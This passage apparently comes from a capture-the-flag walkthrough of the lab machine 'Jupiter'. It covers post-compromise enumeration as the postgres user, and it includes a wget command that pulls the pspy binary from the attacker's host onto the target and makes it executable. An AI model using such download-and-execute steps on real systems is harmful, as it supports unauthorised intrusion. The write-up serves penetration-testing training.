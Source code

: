
There’s also a `network-simulation.yml` and `shadow.data` folder in
`/dev/shm`:

    
    
    postgres@jupiter:/dev/shm$ ls                       
    network-simulation.yml  PostgreSQL.2103401574  shadow.data
    

I’ll come back to this shortly.

#### Processes

The output of `ps auxww` has one interesting line:

    
    
    jovian      1163  0.0  1.6  81332 66616 ?        S    19:24   0:00 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb
    

A Jupyter notebook running as jovian, with notebooks in the folder that I
can’t access yet. I’ll have to come back to this.

#### pspy

To further look at the processes, I’ll use
[pspy](https://github.com/DominicBreuker/pspy) to look for any crons. I’ll
serve it with a Python webserver on my host, and upload it with `wget`, then
setting it as executable:

    
    
    postgres@jupiter:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-08-31 20:35:55--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64              100%[===================>]   2.96M  2.10MB/s    in 1.4s
    
    2023-08-31 20:35:57 (2.10 MB/s) - ‘pspy64’ saved [3104768/3104768]
                                                                        
    postgres@jupiter:/dev/shm$ chmod +x pspy64
    

I’ll run it, and watch for interesting programs, especially when the minute
changes:

    
    
    postgres@jupiter:/dev/shm$ ./pspy64
    ...[snip]...
    

There’s a bunch of commands run as user id 1000 (juno) every two minutes:

    
    
    2023/08/31 20:38:01 CMD: UID=1000  PID=2488   | /bin/sh -c /home/juno/shadow-simulation.sh 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2489   | /bin/bash /home/juno/shadow-simulation.sh 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2490   | /bin/bash /home/juno/shadow-simulation.sh 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2491   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2495   | lscpu --online --parse=CPU,CORE,SOCKET,NODE 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2494   | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2500   | /usr/bin/python3 -m http.server 80 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2501   | /usr/bin/curl -s server 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2503   | /usr/bin/curl -s server 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2505   | /usr/bin/curl -s server 
    2023/08/31 20:38:01 CMD: UID=1000  PID=2510   | /bin/bash /home/juno/shadow-simulation.sh 
    